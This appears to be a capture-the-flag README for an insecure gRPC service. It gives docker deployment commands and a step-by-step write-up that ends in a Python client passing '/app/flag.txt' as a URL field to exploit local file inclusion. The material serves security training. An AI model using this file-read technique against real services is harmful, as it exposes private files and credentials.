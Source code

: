 ------------------------------------------------------------------
# Deployment Notes
$ docker build -t Insecure_gRPC_service .
$ docker run -p 50051:50051 -p 80:80 Insecure_gRPC_service

------------------------------------------------------------------
# Write Up

# Step 0
Html comment says that the flag is located /app/flag.txt

# Step 1
Download the proto file:
http://<server_ip>/flag.proto
---> The flag.proto file has comment of the port of the gPRC service (Port:50051)

# Step 2
Generate libraries
python -m grpc_tools.protoc -l=. --python_out=. --grpc_python_out=. flag.proto

# Write a client python script to exploit the LFI and read the flag
Example script:

import grpc
import flag_pb2
import flag_pb2_grpc

# Set up the gRPC channel
channel = grpc.insecure_channel('localhost:50051')

# Create a stub for the service
stub = flag_pb2_grpc.ExternalDataServiceStub(channel)

# Create a request message
request = flag_pb2.ExternalDataRequest(url='/app/flag.txt')

# Send the request and get the response
response = stub.GetData(request)

# Process the response
print(response.data)
